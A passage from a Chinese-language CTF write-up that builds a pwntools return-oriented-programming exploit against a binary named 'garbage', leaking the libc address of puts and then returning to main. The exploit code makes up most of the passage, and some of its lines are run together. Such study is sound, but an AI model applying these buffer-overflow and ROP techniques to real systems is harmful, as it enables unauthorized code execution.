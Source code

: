 我们的漏洞脚本现在看起来像这样

```
#Stage 1 - Memory Leak                                                                                                                                                    
log.success("Starting first stage:")                                                                                                                                      
plt_put = p64(0x401050)                                                                                                                                                   
got_put = p64(0x404028)                                                                                                                                                   
pop_rdi = p64(0x40179b)                                                                                                                                                   
junk = "A" *136payload = junk + pop_rdi + got_put + plt_put
p.sendline(payload)p.recvline()
p.recvline()leak_puts= p.recvline().strip().ljust(8,"\x00")
log.success("Length of the leaked puts = " + str(len(leak_puts)))
log.success("Leaked puts@LIBC " + str(leak_puts))
leak_puts = u64(leak_puts)
```

当我运行它时:

![](img/1c03f65c92ed50e20fd13627b8ff8a0b.png)

我可以泄漏 libc 内部 puts 的地址，但是进程崩溃了。我现在需要调用 main，这样我就不会使程序崩溃，使泄漏的地址变得无用，因为下次我执行程序时，它会有一个不同的地址。我得到了 main 的地址:

![](img/9a9ef31217ecd022980a3857f01146e1.png)

```
plt_main = 0x401619
```

我将它添加到漏洞利用代码中，因此在泄漏地址后我调用 main:

```
from pwn import *#context(terminal=['tmux', 'new-window'])
p = process('./garbage')
#p = gdb.debug('./garbage', 'b main')
context(os="linux", arch="amd64")
#context.log_level = 'DEBUG'#Stage 1 - Memory Leak
log.success("Starting first stage:")
plt_main = p64(0x401619)
plt_put = p64(0x401050)
got_put = p64(0x404028)
pop_rdi = p64(0x40179b)
junk = "A" *136payload = junk + pop_rdi + got_put + plt_put + plt_main
p.sendline(payload)p.recvline()
p.recvline()leak_puts= p.recvline().strip().ljust(8,"\x00")
#log.success("Length of the leaked puts = " + str(len(leak_puts)))
```